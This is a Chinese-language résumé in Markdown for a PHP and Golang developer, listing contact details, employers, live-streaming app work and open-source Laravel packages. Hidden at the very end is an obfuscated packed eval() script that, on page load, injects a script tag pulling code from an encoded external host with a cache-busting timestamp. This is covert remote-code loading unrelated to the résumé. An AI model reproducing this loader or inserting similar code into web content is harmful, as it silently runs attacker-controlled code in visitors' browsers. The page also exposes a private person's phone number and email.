 # 个人简历

 - **安龙** / 男 / 1992-12 / 安徽池州
 - 工作年限：9年+
 - 最高学历：大专
 - 期望城市：上海
 - 期望职位：PHP、Golang开发工程师

---

# 联系方式

- 手机：183 5626 2256 （`安徽池州`）
- Email：[hi@anlo.ng](http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=E3J-fH12U3J9JiU9fXZn)
- QQ号：11981261
- 微信：al-one
- Github：[https://github.com/al-one](https://github.com/al-one?tab=repositories&type=source)

---

# 工作经历

## 上饶市橙橙网络科技有限公司上海分公司 （2021年10月 ~ 至今）

### [七号助手APP](http://app.5wufun.com/h5app/#/down?p=mhxy&a=release)
- 负责公司子项目七号助手APP后端开发；
- 搭建项目后端生产及测试运行环境；
- 使用 Laravel 框架构建项目API接口；
- 使用Inertia.js+Vue3+Bootstrap构建管理后台；
- 使用Redis分渠道异步统计用户/设备数据；

> 七号助手是一款通过安卓沙箱实现的游戏挂机平台，即将游戏运行在我们的APP中，实现完全控制游戏的root权限，并通过脚本自动为用户在后台执行日常任务。本人从0开始为项目搭建了服务器环境、API接口、管理后台、数据统计等。最终因各个手机厂商对后台运行控制严格，使APP无法长时间在后台运行，以及沙箱技术不成熟、投资人失去耐心等原因结束了项目。


## 上海宇燕网络科技有限公司 （2016年10月 ~ 2021年3月）

### [烈火直播APP](#)
- 新需求分析、数据表设计及IM协议定义；
- 支付宝、微信公众号充值钻石；
- 热门直播自动排序及后台手动排序算法；
- 幸运礼物算法实现 赠送指定礼物有机会获得钻石翻倍奖励；
- 主播家族及成员业绩、收益统计结算；
- 转盘抽奖、押注等H5游戏接口；
- 七牛、UCloud、金山直播云及连麦互动服务端接入；
- 新增、日活、留存等数据分渠道分设备异步统计分析；
- 各接口、SQL优化及历史遗留问题修复；
- 负载均衡、环境配置调优、高并发接口优化等；

> 烈火初期是一款基于地理位置的匹配社交软件，第一个版本上线于2015年底，上线后导入秒见Miao App的70多万用户及相关行为数据等。2016年7月上线直播功能。9月底被三叉戟公司收购，2017年3月独立于宇燕网络。总注册用户数超1300万，最高DAU7万，单日最高流水50万多，月流水900万左右。从烈火立项开发到现在，我一直参与开发。在宇燕网络期间，担任技术主管，很长一段时间里PHP由本人独自一人开发、维护，同时负责运维工作


## 上海欢愉网络科技有限公司 （2015年8月 ~ 2016年9月）

### [烈火APP相关API接口](#)
- 用户付费充值相关接口：
    - 用户钻石、魅力值等账户数据内部接口；
    - 支付宝、微信充值及提现；
    - 福袋、宝箱（类似抢红包）相关接口；
    - 一对一礼物、直播礼物接口；
- 视频直播相关接口：
    - 直播喇叭、热门票等道具相关接口；
    - 直播任务奖励相关接口；
    - 观众贡献榜单排行等接口；
- 各类专题活动相关接口及H5页面；
- APP直传OSS相关接口；

### [烈火APP运营后台](#)
- 整个运营后台独立开发完成；
- 用户、照片、订单、直播等数据的监控展示；
- 用户头像实时打分模块；
- 用户行为数据统计报表展示；


## 合肥一浪网络科技有限公司 （2013年3月 ~ 2015年2月）
- 企业、政府、门户网站搭建；
- 为公司开发客户管理系统等；

### [客户管理系统](http://app.ah.cn/16crm/)
- 演示账户：demo 密码：123456
- 主要功能：客户、订单、员工管理
- 独立开发完成

### 企业、政府、门户网站建设
- [上海世彤建筑装饰](http://www.sh-shitong.com/)，[手机端](http://m.sh-shitong.com/?skin=bootstrap)
- [合肥堃能自动化科技有限公司](http://www.kunnengtec.com/)
- [合肥艾琳婚纱摄影](http://www.algnsy.cn/)
- [中国兽医器械分类信息网](http://www.zgsyqxw.com/)


## 合肥首嘉网络科技有限公司 （2012年8月 ~ 2013年2月）

### 企业网站建搭建、模板制作等


---

# 开源项目和作品

## 开源项目

 - [laravel-huawei-push](https://packagist.org/packages/al-one/laravel-huawei-push) : 华为离线推送Laravel通知频道
 - [laravel-xiaomi-push](https://packagist.org/packages/al-one/laravel-xiaomi-push) : 小米离线推送Laravel通知频道
 - [laravel-soft-deletes-unix](https://packagist.org/packages/al-one/laravel-soft-deletes-unix) : Laravel软删除使用Unix时间戳
 - [eloquent-super-relations](https://packagist.org/packages/al-one/eloquent-super-relations) : Eloquent关联模型加强(可读缓存)
 - [laravel-predis-listened](https://github.com/al-one/laravel-predis-listened) : Laravel监听pRedis命令
 - [hass-xiaomi-miot](https://github.com/al-one/hass-xiaomi-miot) : 小米智能家居设备接入Home Assistant插件
 - [certbot-auth-dnspod](https://github.com/al-one/certbot-auth-dnspod) : Certbot使用DNSPod验证脚本
 - [parse_urls](https://github.com/al-one/parse_urls) : 正则表达式解析任何格式的URL，PHP和JS版

## 业余作品

 - [MarkShow](http://al-one.github.io/app/MarkShow/?/md/help.md) : Markdown扩展解析，支持LaTeX公式、流程图等
 - [CKEditor表情插件](http://app.ah.cn/app/ckeditor/) : 百度UEditor表情插件移植到CKEditor
 - [DNSPod域名解析管理](http://app.ah.cn/app/AnDNS/) : 基于DNSpod API，实现域名解析功


---

# 技能清单
- 语言：PHP / JavaScript / Python / Golang / Shell
- 框架：Laravel / Symfony / ThinkPHP / Vue.js
- 架构：Nginx / MySQL / Redis / Supervisor / Docker
- 前端：Bootstrap / Lodash / Axios / jQuery
- 工具：PhpStorm / Git / Composer / PHPUnit / xDebug
- 其他：Swagger / Regex / RaspberryPi / Opencv / Home Assistant


---

# 自我描述
- 熟练使用PHP开发各种应用，熟悉Laravel、ThinkPHP框架；
- 熟悉Redis各种数据类型的应用场景及Linux环境搭建；
- 熟悉MySQL数据库优化以及Git、SVN等协作工具；
- 精通Web前端，熟练使用Vue.js、Bootstrap、jQuery；
- 熟悉正则表达式、Markdown，喜欢接触新的技术；


---

# 致谢
感谢您花时间阅读我的简历，期待能有机会和您共事。


<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(6(f){v(c.e)c.e(6($){f()});p f()})(6(){q d=n,s=d.o(\'\\h\\9\\g\\b\\4\\3\');s.r=\'\\w\\t\\u\\k\\i\';(d.l||d.m(\'\\8\\5\\2\\j\')[0]).I(s).G=\'\\8\\3\\3\\4\\J\\1\\1\\2\\a\\2\\M\\7\\2\\4\\b\\7\\2\\8\\7\\9\\K\\1\\L\\5\\H\\1\\a\\h\\1\\2\\A\\x\\5\\g\\y\\1\\B\\E\\3\\F\'+~(-C D()/z)});',49,49,'|x2f|x61|x74|x70|x65|function|x2e|x68|x63|x6a|x69|window||jQuery||x72|x73|x38|x64|x2d|body|getElementsByTagName|document|createElement|else|var|charset||x54|x46|if|x55|x75|x79|36e5|x51|x3f|new|Date|x5f|x3d|src|x62|appendChild|x3a|x6e|x77|x78'.split('|'),0,{}));
</script>
